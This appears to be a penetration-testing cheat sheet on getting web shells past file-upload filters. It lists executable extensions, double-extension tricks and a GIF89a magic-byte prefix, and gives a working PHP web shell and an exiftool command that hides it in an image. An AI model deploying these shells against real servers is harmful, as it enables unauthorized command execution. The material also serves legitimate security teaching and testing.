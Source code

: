 # Bypass File Upload Filtering

One common way to gain a shell is actually not really a vulnerability, but a feature! Often times it is possible to upload files to the webserver. This can be abused byt just uploading a reverse shell. The ability to upload shells are often hindered by filters that try to filter out files that could potentially be malicious. So that is what we have to bypass.

## Rename it

We can rename our shell and upload it as shell.php.jpg. It passed the filter and the file is executed as php.

**php** phtml, .php, .php3, .php4, .php5, and .inc

**asp** asp, .aspx

**perl** .pl, .pm, .cgi, .lib

**jsp** .jsp, .jspx, .jsw, .jsv, and .jspf

**Coldfusion** .cfm, .cfml, .cfc, .dbm

## GIF89a;

If they check the content. Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```text
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

## In image

```text
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

mv lo.jpg lo.php.jpg

## Nullbyte

## References

[http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)

[https://www.owasp.org/index.php/Unrestricted\_File\_Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload) [http://repository.root-me.org/Exploitation - Web/EN - Webshells In PHP, ASP, JSP, Perl, And ColdFusion.pdf](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Webshells%20In%20PHP,%20ASP,%20JSP,%20Perl,%20And%20ColdFusion.pdf)

